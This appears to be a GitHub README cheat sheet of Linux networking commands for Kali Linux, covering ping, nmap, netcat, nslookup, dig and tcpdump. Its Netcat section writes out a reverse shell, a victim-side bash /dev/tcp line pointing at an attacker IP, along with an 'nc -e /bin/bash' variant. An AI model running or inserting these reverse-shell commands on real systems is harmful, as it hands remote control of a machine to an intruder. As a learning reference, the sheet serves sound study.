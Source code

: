 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [nslookup Commands](#nslookup-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`ss`**: Show socket statistics (replacement for netstat). `ss -tuln`
- **`whois`**: Retrieve WHOIS information for a domain. `whois example.com`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`
- **`arp`**: Show or modify the ARP (Address Resolution Protocol) table. `arp -a`
- **`wget`**: Download files from the web. `wget http://example.com/file.zip`

- **`WHOIS`**: Database of DNS [here](https://www.whois.com/).
---

## Netcat Commands

- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <IP> 1234`
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < /path/to/my_file.txt` (use absolute path)
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`
- **`ncat`**: Netcat's more secure version for encrypted SSL connections. `ncat --ssl -l 1234`

---

## nslookup Commands

- **Basic DNS Lookup**: `nslookup <hostname>`  
- **Use Specific DNS Server for Lookup**: `nslookup <hostname> <dns-server>`  
- **Reverse DNS Lookup (IP to Domain)**: `nslookup <IP-address>`  
- **Query DNS Record Type**:  `nslookup -type=<record-type> <hostname>`  
  - Replace `<record-type>` with `A`, `AAAA`, `MX`, `TXT`, `SOA`, `CNAME`, etc.
- **Query DNS for Specific Port**:  `nslookup -query=SRV _sip._tcp.<hostname>`  
- **Set DNS Server to Use**:  `nslookup <hostname> <dns-server>`
- **Trace the DNS Resolution Path**:  `nslookup -debug <hostname>`  
- **Interactive Mode**:  `nslookup`  
  - To query different record types (e.g., `set type=A`).

---

## Network Troubleshooting

- **`dig`**: Query DNS, alternative to nslookup.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`
- **`nfsstat`**: Display NFS (Network File System) statistics. `nfsstat -c`
- **`iwconfig`**: Configure wireless network interfaces. `iwconfig wlan0`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
